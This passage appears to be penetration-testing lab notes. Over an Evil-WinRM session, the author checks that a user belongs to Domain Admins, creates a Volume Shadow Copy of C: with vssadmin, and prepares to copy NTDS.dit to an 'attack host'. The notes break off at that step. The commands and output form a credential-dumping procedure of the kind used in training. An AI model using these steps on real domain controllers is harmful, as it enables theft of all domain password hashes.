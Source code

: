 - When looking through these groups, we are looking for **Administrators Group** or **Domain Admin Group.**

**Checking User Account Privileges Including Domain:**

```bash
*Evil-WinRM* PS C:\\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

**Creating a Shadow Copy of C:**

- vssadmin (Volume Shadow Copy)
- Default location of the AD installed which holds the NTDS.dit file.

```bash
*Evil-WinRM* PS C:\\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2
    
```

**Copying NTDS.dit from the VSS:**

- Now that we have a shadow copy, let’s grab the NTDS.dit file and copy it to a location in preparation to move to our attack host.

